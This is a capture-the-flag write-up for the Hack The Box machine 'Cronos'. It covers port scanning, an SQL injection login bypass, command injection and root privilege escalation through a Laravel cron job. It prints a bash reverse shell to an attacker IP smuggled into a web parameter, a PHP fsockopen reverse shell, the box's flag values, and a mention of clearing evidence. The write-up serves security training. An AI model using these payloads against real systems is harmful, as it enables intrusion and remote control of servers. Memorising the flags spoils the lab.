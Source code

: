 # HTB: Cronos

## Engagement Overview
**Target:** Cronos (HTB)
**Box IP:** 10.10.10.13
**Local IP:** 10.10.14.10
**Date:** 2025-07-12

---

### Objectives
- Exploit SQL injection and command injection to obtain a shell
- Compromise cron jobs to achieve privilege escalation to root
- Capture user and root flags

---

## Service Enumeration

```bash
# Nmap (condensed)
nmap -sC -sV -oN nmap.txt 10.10.10.13
```

**Relevant output (condensed):**
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1
53/tcp open  domain  ISC BIND 9.10.3-P4
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

- DNS SOA present for `cronos.htb`
- Gobuster found nothing useful in this engagement
- Burp Suite repeater demonstrated directory listings via command injection payloads

---

## Initial Access

### SQL Injection → Command Injection
- Bypassed login at `admin.cronos.htb` using typical injection: `' or 1=1-- -`
- Used Burp Suite to craft a command injection payload via a parameter that executed arbitrary commands on the server, e.g.:
  ```
  command=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'&host=/var/www
  ```
- Result: web shell / interactive command execution as `www-data`

---

## Privilege Escalation

### Cron Job Poisoning
- Observed root cron entry running Laravel scheduled task:
  ```
  * * * * *  root  php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
  ```
- Injected a payload that opened a reverse shell to attacker host via PHP/command injection; cron executed as root and provided a root shell.

**Example payload used (conceptual):**
```php
$sock=fsockopen("10.10.14.10",443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

**Flags captured:**
- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## House Cleaning / Post-Exploitation

- Removed uploaded artifacts and reversed modifications to artisan where applicable
- Removed `linpeas.sh` and cleared evidence as appropriate

---

## Tools Utilized
- nmap, gobuster, Burp Suite, linPEAS

---

## Key Takeaways
- SQL injection can be escalated to command injection and full compromise when input is unsafely executed server-side.
- Cron jobs that execute web-app-supplied content are high-risk and should be restricted/validated.
- Comprehensive application-level hardening and least privilege for scheduled tasks are crucial.
